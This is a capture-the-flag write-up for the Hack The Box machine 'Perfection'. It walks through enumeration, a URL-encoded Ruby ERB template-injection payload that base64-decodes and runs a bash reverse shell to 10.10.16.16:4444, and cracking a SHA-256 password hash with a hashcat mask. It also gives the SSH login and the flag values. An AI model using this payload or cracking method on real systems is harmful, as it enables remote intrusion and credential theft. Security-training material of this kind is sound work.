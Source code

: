 # Perfection

## Introduction

This writeup details the exploitation process of the "Perfection" box on Hack The Box. The challenge is categorized as easy difficulty and involves several stages.

<figure><img src="../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

## Enumeration

### Nmap

```bash
nmap -A -Pn 10.10.11.253 
```

<figure><img src="../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

I found the website and I check all the function and I find [http://10.10.11.253/weighted-grade](http://10.10.11.253/weighted-grade)

<figure><img src="../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

### Curl (HEADER)

```bash
curl -I 10.10.11.253
```

<figure><img src="../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

And intercept with burp suite to see it have potential RCE. And I found vulnerability that need to use URL-encoding. [https://www.exploit-db.com/exploits/5215](https://www.exploit-db.com/exploits/5215)

<figure><img src="../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

## Exploitation

```bash
#PAYLOAD
a%0A;<%25%3d+system("echo+IyEvYmluL2Jhc2gKYmFzaCAgLWMgImJhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuMTYvNDQ0NCAwPiYxIgo=+|+base64+-d+|+bash")+%25>
```

* %0A = blank
* %25 = %
* %3d = =
* use <%= system(' ') %> for SSTI (Server Side Template Injection) of RUBY ([https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#erb-ruby](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#erb-ruby))
* IyEvYmluL2Jhc2gKYmFzaCAgLWMgImJhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuMTYvNDQ0NCAwPiYxIgo= : #!/bin/bash bash -c "bash -i >& /dev/tcp/10.10.16.16/4444 0>&1" ([https://www.revshells.com/](https://www.revshells.com/))

<pre class="language-bash"><code class="lang-bash"><strong>#Plaintext PAYLOAD
</strong><strong>a
</strong><strong>;&#x3C;%= system("echo IyEvYmluL2Jhc2gKYmFzaCAgLWMgImJhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuMTYvNDQ0NCAwPiYxIgo= | base64 -d | bash") %>
</strong></code></pre>

<figure><img src="../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (13).png" alt=""><figcaption><p>BINGO!</p></figcaption></figure>

### User Flag

<figure><img src="../.gitbook/assets/image (14).png" alt=""><figcaption><p>99dea3053881db4616c908de8b15467d</p></figcaption></figure>

## Privilege Escalation

### Found the Database

```bash
strings /home/susan/Migration/pupilpath_credentials.db
```

<figure><img src="../.gitbook/assets/image (15).png" alt=""><figcaption><p>Susan Miller: abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f</p></figcaption></figure>

### Found the password format

```bash
cd /var/mail
cat susan
```

<figure><img src="../.gitbook/assets/image (16).png" alt=""><figcaption><p>{firstname}<em>{firstname backwards}</em>{randomly generated integer between 1 and 1,000,000,000}</p></figcaption></figure>

### Crack password:

```bash
hashcat -m 1400 -a 3 abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f susan_nasus_?d?d?d?d?d?d?d?d?d
PASSWORD: susan_nasus_413759210
```

* \-m 1400 (SHA-256 hashes)
* \-a 3 (brute force)
* susan\_nasus\_?d?d?d?d?d?d?d?d?d : {firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

### Connect with SSH

```bash
ssh susan@10.10.11.253 
```

<figure><img src="../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

### Root Flag

<figure><img src="../.gitbook/assets/image (18).png" alt=""><figcaption><p>ae84cdfdc078c0790f713ee089011b7c</p></figcaption></figure>

## Follow Me

* **LinkedIn**: [https://www.linkedin.com/in/waris-damkham/](https://www.linkedin.com/in/waris-damkham/)
* **Website**: [https://waris-damkham.netlify.app/](https://waris-damkham.netlify.app/#home)
